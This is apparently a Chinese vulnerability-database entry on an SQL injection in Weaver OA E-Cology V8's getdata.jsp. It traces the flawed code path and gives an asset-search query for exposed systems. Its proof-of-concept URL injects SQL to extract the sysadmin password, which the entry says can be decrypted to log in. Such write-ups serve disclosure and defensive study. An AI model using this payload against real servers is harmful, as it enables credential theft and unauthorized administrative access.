



# 泛微OA E-Cology getdata.jsp SQL注入漏洞

## 漏洞描述

泛微OA V8 存在SQL注入漏洞，攻击者可以通过漏洞获取管理员权限和服务器权限

## 漏洞影响

<a-checkbox checked>泛微OA V8</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="泛微-协同办公OA"</a-checkbox></br>

## 漏洞复现

在getdata.jsp中，直接将request对象交给

`weaver.hrm.common.AjaxManager.getData(HttpServletRequest, ServletContext) :` 

方法处理


在getData方法中，判断请求里cmd参数是否为空，如果不为空，调用proc方法





Proc方法4个参数，(“空字符串”,”cmd参数值”,request对象，serverContext对象)

在proc方法中，对cmd参数值进行判断，当cmd值等于getSelectAllId时，再从请求中获取sql和type两个参数值，并将参数传递进getSelectAllIds（sql,type）方法中




POC

```plain
http://xxx.xxx.xxx.xxx/js/hrm/getdata.jsp?cmd=getSelectAllId&sql=select%20password%20as%20id%20from%20HrmResourceManager
```

查询HrmResourceManager表中的password字段，页面中返回了数据库第一条记录的值（sysadmin用户的password）




解密后即可登录系统

